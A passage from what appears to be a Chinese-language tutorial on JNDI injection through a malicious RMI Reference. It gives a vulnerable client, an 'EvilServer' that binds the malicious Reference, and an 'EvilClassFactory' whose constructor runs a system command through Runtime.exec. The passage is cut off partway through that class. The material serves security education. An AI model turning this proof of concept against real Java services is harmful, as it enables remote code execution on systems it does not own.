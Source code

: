 要求loockup()参数可控，是通过构造恶意的RMI注册服务将恶意的Reference类绑定到注册表中时客户端去加载

就是将恶意的Reference类绑定在RMI注册表中，其中恶意引用指向远程恶意的class文件，当用户在JNDI客户端的lookup()函数参数外部可控或Reference类构造方法的classFactoryLocation参数外部可控时，会使用户的JNDI客户端访问RMI注册表中绑定的恶意Reference类，从而加载远程服务器上的恶意class文件在客户端本地执行，最终实现JNDI注入攻击导致远程代码执行。

Client.java

```java
public class AClient {
    public static void main(String[] args) throws Exception {
        Properties env = new Properties();
        env.put(Context.INITIAL_CONTEXT_FACTORY, "com.sun.jndi.rmi.registry.RegistryContextFactory");
        env.put(Context.PROVIDER_URL, "rmi://127.0.0.1:1099");
        Context ctx = new InitialContext(env);
        String uri = "";
        if(args.length == 1) {
            uri = args[0];
            System.out.println("[*]Using lookup() to fetch object with " + uri);
            ctx.lookup(uri);
        } else {
            System.out.println("[*]Using lookup() to fetch object with rmi://127.0.0.1:1099/demo");
            ctx.lookup("demo");
        }
    }
}
```

EvilServer.java

```java
public class AServer {
    public static void main(String args[]) throws Exception {
        Registry registry = LocateRegistry.createRegistry(1688);
        Reference refObj = new Reference("EvilClass", "EvilClassFactory", "test");
        ReferenceWrapper refObjWrapper = new ReferenceWrapper(refObj);
        System.out.println("[*]Binding 'exp' to 'rmi://127.0.0.1:1688/exp'");
        registry.bind("exp", refObjWrapper);
    }
}
```

EvilClassFactory

```java
public class EvilClassFactory extends UnicastRemoteObject implements ObjectFactory {
    public EvilClassFactory() throws RemoteException {
        super();
        InputStream inputStream;
        try {
            inputStream = Runtime.getRuntime().exec("ipconfig").getInputStream();
            BufferedInputStream bufferedInputStream = new BufferedInputStream(inputStream);
            BufferedReader bufferedReader = new BufferedReader(new InputStreamReader(bufferedInputStream));
            String linestr;
            while ((linestr = bufferedReader.readLine()) != null){
                System.out.println(linestr);
            }
        } catch (IOException e){
            e.printStackTrace();
        }
    }

    @Override
    public Object getObjectInstance(Object obj, Name name, Context nameCtx, Hashtable<?, ?> environment) throws Exception {
        return null;
```